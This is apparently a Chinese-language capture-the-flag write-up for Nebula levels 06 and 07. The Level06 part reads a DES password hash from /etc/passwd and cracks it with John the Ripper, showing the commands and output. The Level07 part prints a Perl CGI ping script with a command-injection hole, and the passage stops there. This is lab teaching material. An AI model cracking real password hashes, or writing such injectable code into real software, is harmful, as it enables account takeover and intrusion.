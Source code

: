 # Level06
这题涨姿势了，要我自己做，肯定是做不出来的，根据题目提示，到 `/home/flag06` 里去看，啥有用的也没发现，然后看了LL的wp后，才知道，重点是在 `/etc/password`

```
flag06@nebula:~$ cat /etc/passwd|grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

我猜测，这题的目的是让我们学如何破linux密码，但是`/etc/shadow` 普通用户不可读，所以把flag06在shadow的内容复制到passwd中

所以接下来就是破密码了, 使用 john命令，通过apt直接安装：

```
$ apt-get install john
......
$ cat passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
$ john passwd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 100% 2/3 2.631g/s 1981p/s 1981c/s 1981C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
密码：hello
然后ssh登录，getflag

# Level07

这题是perl的代码审计
```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```
